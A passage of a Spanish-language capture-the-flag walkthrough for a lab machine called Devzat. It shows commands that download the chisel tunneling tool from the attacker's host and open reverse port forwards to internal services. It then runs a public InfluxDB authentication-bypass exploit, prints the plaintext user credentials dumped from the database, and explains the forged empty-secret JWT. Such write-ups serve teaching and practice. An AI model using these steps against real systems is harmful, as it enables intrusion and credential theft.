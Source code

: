 ```console
patrick@devzat:/tmp$ curl http://10.10.14.12/binarios/chisel_amd64 -O
patrick@devzat:/tmp$ chmod +x chisel_amd64; mv chisel_amd64 chisel
└─$ ./chisel_amd64 server --reverse -p 1234 &
patrick@devzat:/tmp$ ./chisel client 10.10.14.12:1234 R:8086:127.0.0.1:8086 R:8443:127.0.0.1:8443 R:5000:127.0.0.1:5000
```
Ya podemos acceder a esos puertos desde nuestro sistema:  
Por curl no hay resultado, por netcat pone cosas raras... Pero sabemos que esto decia que habia una versión inestable del chat corriendo por el puerto interno 5000  
```console
└─$ nc 127.0.0.1 8443   
SSH-2.0-Go
^C
└─$ ssh -l patrick 127.0.0.1 -p 5000  # Connection closed
└─$ ssh -l patrick 127.0.0.1 -p 8443
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: /commands
[SYSTEM] file - Paste a files content directly to chat [alpha] # este no estaba en la version públic.a
patrick: /file
[SYSTEM] Please provide file to print and the password
```
No tenemos contraseña y no sabemos que hacer, ademas no sabemos que son estos puertos internos  
```
└─$ nmap -sCV -p8443,8086,5000 127.0.0.1 -T5 -v
5000/tcp open  upnp?
Server: My genious go pet server   # La aplicacion de las mascotas :V
8086/tcp open  http    InfluxDB http admin 1.7.5 # ???
8443/tcp open  ssh     (protocol 2.0) # El servidor del chat
```
Segun lo que he leido en internet influxdDb es un sistema de bases de datos parecido a sql  
En la web de [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/8086-pentesting-influxdb) dice que hay que registrarse con un cliente con un usuario/contraseña, no disponemos  
de ello, pero nos hablan de un [exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) para bypasearlo.  

Tiene un script de python __main__.py (renombrar a exploit.py) y un archivo users.txt (diccionario de usaurios)  
```console
└─$ python3 exploit.py

Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...  [v] admin
Host vulnerable !!!
[admin@127.0.0.1/devzat] $ show databases # -> devzat e _internal
[admin@127.0.0.1/devzat] $ show measurementes # igual al show tables de mysql -> user
[admin@127.0.0.1/devzat] $ select * from "user" 
# Credenciales
"wilhelm":"WillyWonka2021"
"catherine":"woBeeYareedahc7Oogeephies7Aiseci"
"charles":"RoyalQueenBee$"
```
Analizando el exploit de antes parece que la versiones previas de influx a 1.7.6 le podias enviar una cookie hecha con un secreto vacío, el exploit intentar mandarlo
con cada uno de los usaurios mas comunes (como admin)  
```
# Token -> {"username" : "admin", "exp": exp}   # exp es el tiempo actual + 2.628 * 10 elevado a 6.
# Cookie -> token = jwt.encode(payload, "", algorithm="HS256")
# Authorization: bearer -> token
```
